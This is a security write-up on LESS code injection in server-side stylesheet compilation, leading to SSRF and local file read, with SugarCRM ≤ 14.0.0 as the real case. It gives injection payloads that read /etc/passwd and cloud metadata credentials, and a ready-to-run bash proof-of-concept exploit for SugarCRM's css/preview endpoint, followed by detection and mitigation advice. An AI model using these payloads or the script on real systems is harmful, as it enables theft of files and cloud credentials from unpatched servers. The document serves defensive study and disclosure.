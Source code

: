 # LESS Code Injection leading to SSRF & Local File Read

## Overview

LESS is a popular CSS pre-processor that adds variables, mixins, functions and the powerful `@import` directive.  During compilation the LESS engine will **fetch the resources referenced in `@import`** statements and embed ("inline") their contents into the resulting CSS when the `(inline)` option is used.

When an application concatenates **user-controlled input** into a string that is later parsed by the LESS compiler, an attacker can **inject arbitrary LESS code**.  By abusing `@import (inline)` the attacker can force the server to retrieve:

* Local files via the `file://` protocol (information disclosure / Local File Inclusion).
* Remote resources on internal networks or cloud metadata services (SSRF).

This technique has been seen in real-world products such as **SugarCRM ≤ 14.0.0** (`/rest/v10/css/preview` endpoint).

## Exploitation

1. Identify a parameter that is directly embedded inside a stylesheet string processed by the LESS engine (e.g. `?lm=` in SugarCRM).
2. Close the current statement and inject new directives.  The most common primitives are:
   * `;`  – terminates the previous declaration.
   * `}`  – closes the previous block (if required).
3. Use `@import (inline) '<URL>';` to read arbitrary resources.
4. Optionally inject a **marker** (`data:` URI) after the import to ease extraction of the fetched content from the compiled CSS.

### Local File Read

```
1; @import (inline) 'file:///etc/passwd';
@import (inline) 'data:text/plain,@@END@@'; //
```

The contents of `/etc/passwd` will appear in the HTTP response just before the `@@END@@` marker.

### SSRF – Cloud Metadata

```
1; @import (inline) "http://169.254.169.254/latest/meta-data/iam/security-credentials/";
@import (inline) 'data:text/plain,@@END@@'; //
```

### Automated PoC (SugarCRM example)

```bash
#!/usr/bin/env bash
# Usage: ./exploit.sh http://target/sugarcrm/ /etc/passwd

TARGET="$1"        # Base URL of SugarCRM instance
RESOURCE="$2"      # file:// path or URL to fetch

INJ=$(python -c "import urllib.parse,sys;print(urllib.parse.quote_plus(\"1; @import (inline) '$RESOURCE'; @import (inline) 'data:text/plain,@@END@@';//\"))")

curl -sk "${TARGET}rest/v10/css/preview?baseUrl=1&lm=${INJ}" | \
  sed -n 's/.*@@END@@\(.*\)/\1/p'
```

## Detection

* Look for dynamically generated `.less` or `.css` responses containing unsanitised query parameters.
* During code review, search for constructions like `"@media all { .preview { ... ${userInput} ... } }"` passed to LESS render functions.
* Exploit attempts often include `@import`, `(inline)`, `file://`, `http://169.254.169.254`, etc.

## Mitigations

* Do **not** pass untrusted data to the LESS compiler.
* If dynamic values are required, properly **escape**/sanitize them (e.g., restrict to numeric tokens, whitelists).
* Disable, when possible, the ability to use `(inline)` imports, or limit allowed protocols to `https`.
* Keep dependencies up to date – SugarCRM patched this issue in versions 13.0.4 and 14.0.1.

## Real-World Cases

| Product | Vulnerable Endpoint | Impact |
|---------|--------------------|--------|
| SugarCRM ≤ 14.0.0 | `/rest/v10/css/preview?lm=` | Unauthenticated SSRF & local file read |

## References

* [SugarCRM ≤ 14.0.0 (css/preview) LESS Code Injection Vulnerability](https://karmainsecurity.com/KIS-2025-04)
* [SugarCRM Security Advisory SA-2024-059](https://support.sugarcrm.com/resources/security/sugarcrm-sa-2024-059/)
* [CVE-2024-58258](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-58258)

